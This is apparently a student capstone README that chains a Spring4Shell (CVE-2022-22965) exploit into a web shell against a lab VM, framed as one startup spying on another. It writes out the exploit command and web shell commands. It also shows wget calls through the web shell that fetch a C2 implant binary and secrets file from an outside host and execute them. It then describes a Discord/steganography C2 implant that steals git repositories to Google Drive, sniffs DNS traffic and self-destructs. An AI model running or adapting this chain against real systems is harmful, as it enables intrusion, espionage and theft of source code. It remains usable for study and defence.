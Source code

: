 # 590J Captsone Project
Group: **Counting Sheep**

Brendan Henrich

Andrew Maldonado

Basundhara Chakrabarty

Scenario: 
To get ahead in the competitive startup environment, startup A wishes to try and figure out what startup B is working on.

Vulnerability: 

+We exploit the very recent Spring4Shell vulnerability (CVE-2022-22965) in the JAVA Spring framework,a very commonly used enterprise-grade development framework among developers. (Ref: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965)
Spring4Shell allows us to execute remote code on the target code, attackers can send crafted HTTP requests to create a malicious .jsp file in the service’s root directory.

Requirements for a host to be vulnerable to Spring4Shell:
JDK (Java Development Kit) 9++
spring-webmvc or spring-webflux
Spring framework versions 5.2.0 to 5.2.19, 5.3.0 to 5.3.17, or older
Apache Tomcat to serve the application
Built as a WAR (Web Application Resource) file (and not JAR)


**Spring4shell Implant Delivery**

CVE-2022-22965

## Proof of Concept Setup
2x Virtual Machines [Host OS Windows 10] running Ubuntu 20.04.4 LTS
Local network DCHP 10.0.2.0/24

Attacker IP = 10.0.2.15

Target IP = 10.0.2.4

Target is running vulnerable Spring server !

**Instructions:**
```
Start here: https://medium.com/geekculture/spring4shell-exploit-walkthrough-9843c0244b68
On Target: [run the vulnerable spring server]
cd spring4shell
sudo docker run -p 80:8080 spring4shell
```
On Attacker: [launch the attack]:
```
cd spring4shell
python3 exploit.py --url 'http://10.0.2.4/helloworld/greeting'
```

**WEB SHELL COMMANDS:**
```
lynx -dump http://10.0.2.4/shell.jsp?cmd=whoami
lynx -dump http://10.0.2.4/shell.jsp?cmd=echo%20spring4shell
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls%20-l%20/
```

**LOAD the implant:**
```
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/XGHo3dJDb31/c2_implant
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/nScoTrBugqc/secrets.json
```

** RUN the implant:**
lynx -dump http://10.0.2.4/shell.jsp?cmd=%2e%2fc2_implant

Anatomy of our exploit:
![GitHub Logo](/Anatomy.png)

How do we get access to the target?
By exploiting the recent vulnerability Spring4Shell (CVE-2022-22965)!

  
How does our Command and Control Server work?
+Python code c2_home.py to enable a Discord server that waits until the bot (implant) is online and then sends commands to it! The commands are sent embedded to images using python stegano.

How does our Implant work?
+The implant is written in python, and compiled into a binary executable for Ubuntu 20.04 LTS AMD64, and can be placed in the startup folder or run from the webshell
+Logically it can be compiled for for a host that is vulnerable to Spring4any architecture Shell!

Implant code: Main code is c2_implant.py, which calls c2_discord.py(aiding in Discord communication) and helper.py (Performs the Data exfiltration)
The implant code polls Discord every <Poll time interval> (set to 5s at the beginning of the presentation) to fetch messages (in the form of images, fetch_command() function in c2_implsnt.py) from the CnC server, and once it gets an image, decrypts it into a message and executes it. We used the stegano python library for embedding messages in the images. There are four possible messages, as seen in the parse_command() function in c2_implant.py:
  
+sleep <NEW_TIMER>: Change sleep timer to NEW_TIMER, useful if we need the bot to poll less frequently and lay low for a while
+repos: Launch get_git_repos() (described beloew)
+sniff 1 and sniff 0: Toggles the sniffer function sniff() described below
+sd: Self destruct, remove all files on disk and exit, this logic is present in the self_destruct() function

What data do we exfiltrate?
Our implant can collect two types of data: Git Repos from the target (since every developement team uses version control), and we can also launch a packet sniffer. 

+Currently, helper.py has get_git_repos(), which scans the local filesystem for git repos, tar-s them in a temporary directory in /tmp, uploads the tar-ed files to a service account on Google Drive, and then deletes the files and the temporary folder. We use Google Drive APIs to connect to the service account

+Additionally, the sniff() function takes in an integer toggle (1: on and 0: off), sniff(1) starts packet sniffing on available interfaces (Using python scapy) and collects all DNS (TCP and UDP port 53) packets. Sniff(0) turns off sniffing, and if any packets are collected, they are uploaded to Drive by calling uploadToDrive(). These packets can be downloaded from Google Drive and viewed in Wireshark, they contain the domain names in plaintext!
  
How do we obfuscate the data/hide in plain sight?
+We use steganography to send commands from CnC to target, and can change the poll times or self destruct (remove itself completely from target)
+Everything that the implant generates is saved in /tmp and removed after upload

How can we possibly scale our project?
+Our CnC server can send commands to multiple bots, possible next step would be to add functionality to add multiple bots in the code, use a sequencing mechanism to route commands to various bots by group, and have them execute them.
+We can collect a bunch of packet captures showing unencrypted DNS packets, collect the domain names from them and run analytics to get more info on the internet activity of the developer, eg., what websites does she visits, what developer console tools she uses, etc etc. 


